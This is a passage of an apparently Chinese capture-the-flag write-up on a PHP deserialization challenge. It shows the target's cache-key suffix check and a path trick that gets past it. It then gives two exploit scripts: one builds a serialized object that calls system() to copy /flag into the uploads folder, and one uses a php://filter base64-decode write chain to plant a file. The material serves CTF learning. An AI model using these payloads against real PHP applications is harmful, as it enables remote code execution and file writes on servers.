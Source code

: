 ```php
public function getCacheKey(string $name): string {
        // 使缓存文件名随机
        $cache_filename = $this->options['prefix'] . uniqid() . $name;
        if(substr($cache_filename, -strlen('.php')) === '.php') {
          die('?');
        }
        return $cache_filename;
    }
```
所以这里我们需要绕过这个后缀的限制。
` ../a.php/ `
这个方法绕过就可以很素服到达效果。在处理的时候会自动删除后缀</br>
两个解法
exp1
直接命令执行打flag
```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    public $cache = [];
    public $complete = true;
    public function __construct () {
        $this->store = new B();
        $this->key = '/../wtz.phtml';
        $this->cache = ['path'=>'a','dirname'=>'`cat /flag > ./uploads/flag.php`'];
    }
}
class B{
    public $options = [
        'serialize' => 'system',
        'prefix' => 'sssss',
    ];
}
echo urlencode(serialize(new A()));
```
exp2
绕过后缀限制写入
```php
<?php
class A{
    protected $store;
    protected $key;
    protected $expire;
    public function __construct()
    {
        $this->key = '/../wtz.php/.';
    }
    public function start($tmp){
        $this->store = $tmp;
    }
}
class B{
    public $options;
}

$a = new A();
$b = new B();
$b->options['prefix'] = "php://filter/write=convert.base64-decode/resource=uploads/";
$b->options['expire'] = 11;
$b->options['data_compress'] = false;
$b->options['serialize'] = 'strval';
$a->start($b);
```